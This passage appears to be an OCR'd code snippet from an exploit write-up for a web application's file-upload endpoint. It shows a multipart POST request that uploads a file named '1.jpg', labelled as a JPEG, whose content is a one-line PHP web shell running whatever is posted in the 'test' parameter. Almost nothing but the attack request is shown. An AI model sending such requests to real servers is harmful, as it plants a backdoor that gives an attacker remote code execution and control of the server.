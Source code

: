 ```php
Content-Disposition: form-data; name="OP"

-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="PD"

1
-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="SORT_ID"

0
-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="ATTACHMENT_ID_OLD"

-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="ATTACHMENT_NAME_OLD"

-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="FILE_SORT"

2
-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="USE_CAPACITY"

-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="USE_CAPACITY_SIZE"

-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="SHARE_USER"

-----------------------------33072116513621237124579432636
Content-Disposition: form-data; name="ATTACHMENT_0"; filename="1.jpg"
Content-Type: image/jpeg

<?php @e val($_POST['test']); ?>
-----------------------------33072116513621237124579432636--
```